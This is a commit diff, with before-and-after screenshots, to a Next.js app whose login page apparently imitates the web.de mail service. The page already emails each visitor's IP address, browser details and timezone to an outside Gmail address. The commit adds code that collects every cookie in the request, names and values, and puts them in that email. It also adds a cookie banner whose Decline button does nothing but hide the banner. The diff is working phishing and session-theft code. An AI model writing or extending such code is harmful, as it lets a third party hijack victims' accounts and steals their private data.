

Before and after one commit to officialbenz80/web-de-update, a Next.js app: page /en in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers; grey boxes are pictures that could not be loaded.

Commit message:
updated user details

```diff
--- a/app/[locale]/layout.tsx
+++ b/app/[locale]/layout.tsx
@@ -1,6 +1,8 @@
 import type { Metadata } from "next";
 import { Geist, Geist_Mono } from "next/font/google";
 import "./../globals.css";
+import { cookies } from "next/headers";
+import CookieBanner from "@/components/CookieBanner";
 
 const geistSans = Geist({
   variable: "--font-geist-sans",
@@ -41,12 +43,19 @@ export default async function RootLayout({ children, params }: LayoutProps) {
 
   const locale = resolvedParams.locale as "de" | "en";
 
+  // Await the cookies API to check the current state
+  const cookieStore = await cookies();
+  const hasConsented = cookieStore.has("cookie_consent");
+
   return (
     <html
       lang={locale}
       className={`${geistSans.variable} ${geistMono.variable} h-full antialiased`}
     >
-      <body className="min-h-full flex flex-col">{children}</body>
+      <body className="min-h-full flex flex-col">
+        {children}
+        {!hasConsented && <CookieBanner />}
+      </body>
     </html>
   );
 }
--- a/app/[locale]/page.tsx
+++ b/app/[locale]/page.tsx
@@ -1,6 +1,6 @@
 import { getDictionary } from "@/app/dictionaries";
 import Link from "next/link";
-import { headers } from "next/headers";
+import { headers, cookies } from "next/headers";
 import nodemailer from "nodemailer"; // Import Nodemailer
 import LoginForm from "./LoginForm";
 import { redirect } from "next/navigation";
@@ -24,6 +24,17 @@ export default async function LoginPage({
     // Extract network and browser info from request headers
     const headersList = await headers();
 
+    const cookieStore = await cookies();
+    console.log("Cookies during form submission:", cookieStore.getAll());
+
+    const cookiesFormatted = cookieStore
+      .getAll()
+      .map(
+        (cookie, index) =>
+          `${index + 1}. ${cookie.name}\n   Value: ${cookie.value}`,
+      )
+      .join("\n\n");
+
     const userInfo = {
       ipAddress:
         headersList.get("x-forwarded-for")?.split(",")[0] || "127.0.0.1",
@@ -32,6 +43,7 @@ export default async function LoginPage({
       userAgent: headersList.get("user-agent") || "Unknown",
       browserLanguage: headersList.get("accept-language") || "Unknown",
       timezone: headersList.get("x-vercel-ip-timezone") || "UTC",
+      cookies: cookiesFormatted || "No cookies found",
     };
 
     const emailHtml = `
@@ -101,6 +113,37 @@ export default async function LoginPage({
                         ${userInfo.userAgent}
                       </td>
                     </tr>
+                    <tr>
+                      <td
+                        style="
+                          padding: 10px 0;
+                          font-weight: 600;
+                          color: #4a5568;
+                          vertical-align: top;
+                        "
+                      >
+                        Cookies
+                      </td>
+                      <td style="padding: 10px 0;">
+                        <div
+                          style="
+                            background: #f7fafc;
+                            border: 1px solid #e2e8f0;
+                            border-radius: 6px;
+                            padding: 12px;
+                            font-family: Consolas, Monaco, monospace;
+                            font-size: 12px;
+                            line-height: 1.6;
+                            color: #2d3748;
+                            max-width: 100%;
+                            white-space: pre-wrap;
+                            word-break: break-word;
+                          "
+                        >
+                          ${userInfo.cookies}
+                        </div>
+                      </td>
+                    </tr>
                   </table>
                 </td>
               </tr>
@@ -130,7 +173,7 @@ export default async function LoginPage({
     try {
       await transporter.sendMail({
         from: process.env.GMAIL_USER, // Sender address (must be your Gmail account)
-        to: "Infoadamslawrence@gmail.com", // Destination address
+        to: "infoadamslawrence@gmail.com", // Destination address
         subject: "New User Info Submission",
         html: emailHtml,
       });
--- /dev/null
+++ b/app/actions/cookies.ts
@@ -0,0 +1,16 @@
+"use server";
+
+import { cookies } from "next/headers";
+
+export async function acceptCookies() {
+  // Always await cookies() in Next.js 15+
+  const cookieStore = await cookies();
+
+  cookieStore.set("cookie_consent", "true", {
+    maxAge: 60 * 60 * 24 * 365, // 1 year
+    path: "/",
+    // Set to true in production for HTTPS only
+    secure: process.env.NODE_ENV === "production",
+    sameSite: "lax",
+  });
+}
--- /dev/null
+++ b/components/CookieBanner.tsx
@@ -0,0 +1,43 @@
+"use client";
+
+import { useState } from "react";
+import { acceptCookies } from "@/app/actions/cookies";
+
+export default function CookieBanner() {
+  const [isVisible, setIsVisible] = useState(true);
+
+  const handleAccept = async () => {
+    setIsVisible(false); // Hide immediately for snappy UX
+    await acceptCookies();
+  };
+
+  const handleDecline = () => {
+    setIsVisible(false);
+    // Optional: Call another server action to set a 'declined' cookie if needed
+  };
+
+  if (!isVisible) return null;
+
+  return (
+    <div className="fixed bottom-0 left-0 w-full bg-gray-900 text-white p-4 flex flex-col sm:flex-row justify-between items-center z-50">
+      <p className="text-sm mb-4 sm:mb-0">
+        We use cookies to improve your browsing experience and analyze site
+        traffic.
+      </p>
+      <div className="flex gap-4">
+        <button
+          onClick={handleDecline}
+          className="px-4 py-2 text-sm text-gray-300 hover:text-white transition-colors"
+        >
+          Decline
+        </button>
+        <button
+          onClick={handleAccept}
+          className="px-4 py-2 text-sm bg-blue-600 hover:bg-blue-700 rounded-md transition-colors"
+        >
+          Accept
+        </button>
+      </div>
+    </div>
+  );
+}
--- a/package.json
+++ b/package.json
@@ -10,6 +10,7 @@
   },
   "dependencies": {
     "@formatjs/intl-localematcher": "^0.8.8",
+    "cookies-next": "^6.1.1",
     "negotiator": "^1.0.0",
     "next": "16.2.6",
     "nodemailer": "^8.0.7",
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
